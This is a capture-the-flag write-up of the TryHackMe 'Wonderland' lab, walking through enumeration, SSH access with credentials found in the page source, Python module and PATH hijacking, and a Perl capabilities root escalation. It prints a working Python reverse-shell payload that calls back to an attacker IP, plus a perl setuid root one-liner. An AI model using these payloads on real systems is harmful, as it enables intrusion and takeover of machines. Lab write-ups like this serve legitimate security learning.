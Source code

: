 ```yaml
---
title: Wonderland
date: 2022-07-23 12:00:00 -0500
author: L15t3Nr
categories: [TryHackMe, WriteUp]
tag: [TryHackMe, WriteUp, Wonderland]
img_path: /assets/img/Wonderland/
---
```


Wonderland can be found [here](/assets/img/Wonderland/https://tryhackme.com/room/wonderland)

![Wonderland](/assets/img/Wonderland/Wonderland.jpeg)

# Enumeration
## Nmap
The results of nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Manual Inspection 
The home page contains only an image

![Home](/assets/img/Wonderland/Home.png)

## Fuzzing for Directories
Using Wfuzz, I enumerate directories
```
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --follow --hc 404 http://10.10.241.146/FUZZ/
```

One of the first results comes back as the '/r/' directory.

![r](/assets/img/Wonderland/r.png)

I had a feeling this was going to spell out the word 'rabbit', so I checked. 

![rabbitPage](/assets/img/Wonderland/rabbitPage.png)

There is a page here and checking the source reveals something interesting. 

There are credentials hidden in the page source. 

![sourceCredentials](/assets/img/Wonderland/sourceCredentials.png)

# Lateral Movement
### Alice

The credentials i found grant SSH access as the user 'alice'.

![SSHAlice](/assets/img/Wonderland/SSHAlice.png)

Digging into the users permissions reveals the ability to execute a python script as the user 'rabbit'

`sudo -l`
![sudo-l](/assets/img/Wonderland/sudo-l.png)


### Rabbit
The python script uses the 'random' module and this can exploited by abusing the way python looks up library modules. The first location python checks is the current directory. The random module is located at `/usr/lib/python3.6/random.py`. By placing a malicious file name 'random.py' in the current directory, python will find and use my module before it reaches the `	/usr/lib/python3.6/random.py` location. 

The payload I will use: 
```
import socket,os,pty  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.2.7.45",4242))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
pty.spawn("/bin/sh")
```

and this will be stored in a file called 'random.py' in the directory containing the 'walrus_and_the_carpenter.py' script. 

Setting up a netcat listener on 4242 and then executing the script as the user rabbit will provide a reverse shell as the next user. 

`sudo -u rabbit python3.6 ~/walrus_and_the_carpenter.py`

![randomPY](/assets/img/Wonderland/randomPY.png)

![rabbitShell](/assets/img/Wonderland/rabbitShell.png)

### Hatter

The rabbit user contains a binary called 'teaParty' and their is a SUID set on the binary.

![SUID](/assets/img/Wonderland/SUID2.png)

I downloaded a strings static binary onto the target and inspected the strings in the binary.

![teaParty](/assets/img/Wonderland/teaParty.png)

This revealed that the binary uses the 'date' command without an absolute path. This way I can hijack the command with my own by added a malicious 'date' binary to the tmp directory and including the tmp directory in the path. 

![stringsResults](/assets/img/Wonderland/stringsResults.png)

the malicious date binary will contain a reverse shell payload and then be made executable

![newDate](/assets/img/Wonderland/newDate.png)

The tmp directory is also added to the path

![PATH](/assets/img/Wonderland/PATH.png)

A netcat listener is started on port 2345 and then the binary is executed for a reverse shell as the user Hatter

![TeaPartyExec](/assets/img/Wonderland/TeaPartyExec.png)

![HatterShell](/assets/img/Wonderland/HatterShell.png)

# Privilege Escalation
### Root
User hatter contains a password file in the home directory that I will use to login via SSH

![HatterPassword](/assets/img/Wonderland/HatterPassword.png)

![HatterSSH](/assets/img/Wonderland/HatterSSH.png)

I ran through the [Privilege Escalation Checklist](/assets/img/Wonderland/https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and found that the hatter user has capabilities set on Perl. 

![GetCap](/assets/img/Wonderland/GetCap.png)

There is a privilege escalation path found on [GTFO bins](/assets/img/Wonderland/https://gtfobins.github.io/gtfobins/perl/)

The payload: 
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![root](/assets/img/Wonderland/rootWonderland.png)
